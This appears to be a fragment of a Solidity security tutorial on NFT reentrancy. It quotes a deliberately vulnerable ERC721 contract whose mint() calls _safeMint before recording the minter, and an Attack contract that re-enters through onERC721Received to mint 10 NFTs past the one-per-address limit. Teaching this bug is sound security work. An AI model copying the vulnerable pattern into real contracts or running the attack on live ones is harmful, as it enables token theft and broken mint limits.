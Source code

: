 |          | _mintBatch                          |
|          | _doSafeTransferAcceptanceCheck      |
|          | _doSafeBatchTransferAcceptanceCheck |


## Example
Code from [WTF](https://github.com/AmazingAng/WTF-Solidity/blob/main/S16_NFTReentrancy/readme.md)

```solidity title="NFT.sol"
contract NFTReentrancy is ERC721 {
    uint256 public totalSupply;
    mapping(address => bool) public mintedAddress;
    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Reentry NFT", "ReNFT"){}

    // 铸造函数，每个用户只能铸造1个NFT
    // 有重入漏洞
    function mint() payable external {
        // 检查是否mint过
        require(mintedAddress[msg.sender] == false);
        // 增加total supply
        totalSupply++;
        // mint
        _safeMint(msg.sender, totalSupply);
        // 记录mint过的地址
        mintedAddress[msg.sender] = true;
    }
}
```

```solidity title="Attack.sol"
contract Attack is IERC721Receiver{
    NFTReentrancy public nft; // 有漏洞的nft合约地址

    // 初始化NFT合约地址
    constructor(NFTReentrancy _nftAddr) {
        nft = _nftAddr;
    }
    
    // 攻击函数，发起攻击
    function attack() external {
        nft.mint();
    }

    // ERC721的回调函数，会重复调用mint函数，铸造10个
    function onERC721Received(address, address, uint256, bytes memory) public virtual override returns (bytes4) {
        if(nft.balanceOf(address(this)) < 10){
            nft.mint();
        }
        return this.onERC721Received.selector;
    }
}
```
